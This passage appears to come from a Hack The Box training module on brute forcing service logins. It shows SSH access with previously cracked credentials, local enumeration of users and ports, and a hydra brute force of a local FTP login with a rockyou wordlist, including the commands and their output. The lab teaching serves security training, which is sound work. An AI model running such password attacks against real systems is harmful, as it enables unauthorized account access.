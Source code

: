 We see that it takes some time to finish, but eventually, we get a working pair, and we identify the user `b.gates`. Now, we can attempt ssh-ing in using the credentials we got:

Service Authentication Brute Forcing

```shell-session
root@htb[/htb]$ ssh b.gates@178.35.49.134 -p 22

b.gates@SERVER_IP's password: ********

b.gates@bruteforcing:~$ whoami
b.gates
```

As we can see, we can `SSH` in, and get a shell on the server.

***

### FTP Brute Forcing

Once we are in, we can check out what other users are on the system:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates
```

We notice another user, `m.gates`. We also notice in our local `recon` that port `21` is open locally, indicating that an `FTP` must be available:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -                  
```

Next, we can try brute forcing the `FTP` login for the `m.gates` user now.

Note 1: Sometimes administrators test their security measures and policies with different tools. In this case, the administrator of this web server kept "hydra" installed. We can benefit from it and use it against the local system by attacking the FTP service locally or remotely.

Note 2: "rockyou-10.txt" can be found in "/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou-10.txt", which contains 92 passwords in total. This is a shorter version of "rockyou.txt" which includes 14,344,391 passwords.

So, similarly to how we attacked the `SSH` service, we can perform a similar attack on `FTP`:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```